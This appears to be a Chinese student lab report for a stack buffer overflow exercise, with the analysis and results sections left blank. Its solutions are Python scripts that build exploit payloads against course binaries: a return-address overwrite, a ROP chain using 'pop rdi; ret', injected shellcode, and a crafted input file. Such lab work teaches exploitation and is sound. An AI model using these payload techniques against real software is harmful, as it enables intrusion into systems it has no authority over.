




# 栈溢出攻击实验

## 题目解决思路

### Problem 1: 

#### 分析：

#### 解决方案：

编写`python`代码，文件命名为`solution1.py`
```python
import struct
payload = b""
payload += b"A" * 8 # 填充缓冲区（8字节）
payload += b"B" * 8 # 填充保存的rbp（8字节）
payload += struct.pack("<Q", 0x401216)  # 覆盖返回地址为func1的地址
with open("answer1", "wb") as f:
    f.write(payload)
```

编译指令：
```bash
python3 solution1.py
./problem1 answer1
```
#### 结果：


### Problem 2:

#### 分析：

#### 解决方案：

编写`python`代码，文件命名为`solution2.py`
```python
import struct
payload = b""
payload += b"A" * 8 # 填充缓冲区 (8字节)
payload += b"B" * 8 # 填充保存的rbp (8字节)
payload += struct.pack("<Q", 0x4012c7)  # pop rdi; ret
payload += struct.pack("<Q", 0x3f8)     # 参数: 1016 (0x3f8)
payload += struct.pack("<Q", 0x401216) # 覆盖返回地址为func2的地址
payload += b"C" * 16 # 填充到 56 字节 (memcpy 会复制 56 字节)
with open("answer2", "wb") as f:
    f.write(payload)
```

编译指令：
```bash
python3 solution2.py
./problem2 answer2
```
#### 结果：



### Problem 3: 

#### 分析：

#### 解决方案：

编写`python`代码，文件命名为`solution3.py`
```python
import struct
payload = b"\xbf\x72\x00\x00\x00\x68\x16\x12\x40\x00\xc3"
# 填充原来的代码：mov edi, 0x72; push 0x401216; ret（11字节）
payload += b"A" * 21 # 填充缓冲区（21字节）
payload += struct.pack("<Q", 0x7fffffffdfe0) # 填充保存的rbp
payload += struct.pack("<Q", 0x401334) # 覆盖返回地址为jmp_xs的地址
payload += b"B" * 16 # 填充缓冲区（16字节）
with open("answer3", "wb") as f:
    f.write(payload)
```

编译指令：
```bash
python3 solution3.py
./problem3 answer3
```
#### 结果：



### Problem 4: 

#### 分析：

#### 解决方案：

编写`python`代码，文件命名为`solution4.py`
```python
with open("answer4", "w") as f:
    f.write("hello\n")  # 第一个字符串（任意）
    f.write("world\n")  # 第二个字符串（任意）
    f.write("-1\n")     # 一定要是-1
```

编译指令：
```bash
python3 solution4.py
./problem4 < answer4
```
#### 结果：



## 思考与总结


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
